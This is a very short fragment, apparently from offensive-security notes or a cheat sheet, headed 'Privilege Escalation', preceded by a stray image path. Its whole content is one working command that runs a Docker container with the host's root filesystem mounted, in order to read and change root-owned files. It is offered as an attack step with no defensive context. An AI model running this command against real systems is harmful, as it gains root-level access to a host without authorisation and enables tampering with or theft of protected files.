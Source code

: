 # Privilege Escalation

Access root-owned files:

```bash
docker run -it --rm -v /:/host ubuntu bash
```